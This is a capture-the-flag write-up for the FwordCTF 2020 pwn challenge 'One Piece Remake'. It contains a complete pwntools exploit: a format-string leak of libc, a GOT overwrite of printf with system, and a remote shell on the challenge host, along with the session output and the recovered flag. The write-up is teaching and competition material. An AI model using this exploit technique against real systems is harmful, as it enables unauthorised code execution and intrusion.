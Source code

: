 # FwordCTF 2020

## One Piece Remake

> 487
> 
> Luffy has learned something new.
>
> `nc onepiece.fword.wtf 1236`
>
> Author : haflout
>
> [`One Piece Remake`](one_piece_remake)

Tags: _pwn_ _x86_ _remote-shell_ _format-string_ _got-overwrite_


## Summary

Shellcode or format-string or GOT overwrite, pick your poison or two.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No mitigations in place.  Choose your own adventure.

    
### Decompile with Ghidra

```c
undefined4 mugiwara(void)
{
  char local_70 [104];
  
  puts("what\'s your name pirate ?");
  printf(">>");
  read(0,local_70,100);
  printf(local_70);
  return 0;
}
```

I went the format-string vulnerability route.  And there is it, `printf(local_70);`, and you can run it as many times as you like.

With no PIE, there's no need to leak the base address to get to the GOT, but we'll still need the libc version and location.  With that in hand, just overwrite `printf` with `system` to get a shell.


## Exploit

### Setup

> See [_Welcome Pwner Exploit Setup_](https://github.com/datajerk/ctf-write-ups/blob/master/fwordctf2020/welcome_pwner/README.md#setup) for a detailed explanation of why I start my exploits this way:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./one_piece_remake')
context.log_level = 'INFO'
context.log_file = 'log.log'

'''
# local libc
libc = binary.libc
p = process(binary.path)
'''
# task libc
libid = 'libc6_2.30-0ubuntu2.2_i386'
libpath = os.getcwd() + '/libc-database/libs/' + libid + '/'
ld = ELF(libpath + 'ld-2.30.so')
libc = ELF(libpath + 'libc-2.30.so')
#p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})
p = remote('onepiece.fword.wtf', 1236)
#'''
```

The setup above is the final version, but before we can get there, we'll start with our local libc block, then switch to the challenge libc after discovered.

### First Pass: get libc version and location

```python
offset = 7

p.recvuntil('>>')
p.sendline('gomugomunomi')
p.recvuntil('>>')

payload  = b'%' + str(offset+1).encode() + b'$s'
payload += p32(binary.got.puts)
p.sendline(payload)

_ = p.recv(4)
puts = u32(_)
log.info('puts: ' + hex(puts))
libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

First we need to find the `offset` of the buffer in the stack before we can use any format-string exploits.  To do this simply enter `%1$p` as your _pirate name_ incrementing the digit until the output (in hex (little endian)) matches your input.  `7` will be the `offset`.

> Read [_dead-canary_](https://github.com/datajerk/ctf-write-ups/blob/master/redpwnctf2020/dead-canary/README.md) for all the different ways to find offsets and abuse format-strings.

After finding the `offset`, use the `%s` flag to leak the location of `puts`, then compute the base of libc.

After testing locally, test remotely to get the last 3 nibbles of `puts` to then find libc using the [libc-database](https://github.com/niklasb/libc-database) (example [here](https://github.com/datajerk/ctf-write-ups/blob/master/fwordctf2020/welcome_pwner/README.md#decompile-with-ghidra)).


### Second Pass: GOT overwrite `printf` with `system`

```python
p.recvuntil('>>')
p.sendline('gomugomunomi')
p.recvuntil('>>')

payload = fmtstr_payload(offset,{binary.got.printf:libc.sym.system},numbwritten=0)
p.sendline(payload)
```

Not a lot here.  Just overwrite `printf` with `system`.


### Third Pass: get a shell, get a flag (maybe)

```python
time.sleep(0.5)
p.sendline('gomugomunomi')
time.sleep(0.5)
p.recvuntil('what\'s your name pirate ?')
p.sendline('/bin/sh')
p.interactive()
```

With `printf` taken out, we'll be flying blind, `puts` statements will make it through, but `printf` will just be `system` errors.  A few sleeps will take care of the chaos.  And with a pirate name of `/bin/sh`, well, how can we lose?

Output:

```bash
# ./exploit.py
[*] '/pwd/datajerk/fwordctf2020/one_piece_remake/one_piece_remake'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[*] '/pwd/datajerk/fwordctf2020/one_piece_remake/libc-database/libs/libc6_2.30-0ubuntu2.2_i386/ld-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/fwordctf2020/one_piece_remake/libc-database/libs/libc6_2.30-0ubuntu2.2_i386/libc-2.30.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to onepiece.fword.wtf on port 1236: Done
[*] puts: 0xf7ddcb70
[*] libc.address: 0xf7d6b000
[*] Switching to interactive mode

$ id
uid=1000(fword) gid=1000(fword) groups=1000(fword)
$ ls -l
total 32
-rw-rw-r-- 1 root root    47 Aug 29 01:06 flag.txt
-r-x--x--x 1 root root  7656 Aug 29 01:06 one_piece_remake
-rwxr-xr-x 1 root root 18744 Aug 29 01:05 ynetd
$ cat flag.txt
```

Ummm... no flag?

```
$ grep -v blah flag.txt
FwordCTF{i_4m_G0inG_t0_B3coM3_th3_p1r4Te_K1NG}
```

Oh, there it is.

To be extra annoying, they made `cat`, `head`, `tail`, etc... useless.  Be creative.
